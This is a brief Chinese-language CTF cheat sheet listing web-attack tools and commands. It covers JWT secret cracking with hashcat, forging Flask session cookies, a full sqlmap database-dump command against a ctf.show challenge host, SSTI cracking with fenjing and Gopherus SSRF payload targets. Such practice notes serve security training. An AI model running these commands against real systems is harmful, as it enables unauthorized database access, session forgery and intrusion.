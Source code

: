 ### 介绍一些工具的使用

#### jwt

- hashcat
  `hashcat -a 0 -m 16500 xxx jwt.secrets.list`

- jwt_tool

- jwt-cracker

  `./jwtcrack xxx`

- flask-session-cookie

  `python flask_session_cookie_manager3.py decode -c "session值" -s "key值"`
  `python flask_session_cookie_manager3.py encode -s "key值" -t "我们需要伪造的值"`

### sql

- sqlmap

  `sqlmap -u http://b33260ff-e59f-43b3-a76a-b0abe8dbf074.challenge.ctf.show/api/index.php  --method=PUT --headers="Content-Type: text/plain" --data="id=1" --refer=ctf.show  -D ctfshow_web -T ctfshow_flavis -C ctfshow_flagxsa --dump --safe-url http://b33260ff-e59f-43b3-a76a-b0abe8dbf074.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper="revbaserev.py "`

### ssti

- fenjing

  `python3 -m fenjing crack -u "xxx" -i exgr  --tamper-cmd 'rev'`

  `python3 -m fenjing webui`

  还有一个py脚本在vscode里

### gopher

#### Gopherus

`docker exec -it charming_kilby /bin/bash`

| gopherus --exploit | Arguments can be :    |
| ------------------ | --------------------- |
|                    | --exploit mysql       |
|                    | --exploit postgresql  |
|                    | --exploit fastcgi     |
|                    | --exploit redis       |
|                    | --exploit zabbix      |
|                    | --exploit pymemcache  |
|                    | --exploit rbmemcache  |
|                    | --exploit phpmemcache |
|                    | --exploit dmpmemcache |
|                    | --exploit smtp        |
